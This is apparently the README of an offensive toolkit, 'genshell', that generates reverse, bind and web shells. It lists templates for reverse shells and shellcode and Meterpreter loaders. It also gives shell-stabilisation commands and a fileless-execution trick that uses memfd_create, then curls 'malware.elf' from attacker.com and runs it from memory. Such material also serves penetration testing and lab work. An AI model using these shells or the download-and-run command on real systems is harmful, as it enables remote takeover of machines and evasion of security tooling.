

# Shells

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `genshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./genshell/templates/reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./genshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./genshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./genshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./genshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./genshell/templates/exec/mmap-ctype.py)
- [Meterpreter loader for Windows](./genshell/templates/exec/windows-minildr/)

## Tips

Metasploit payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo && fg
# paste clipboard and press enter
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go
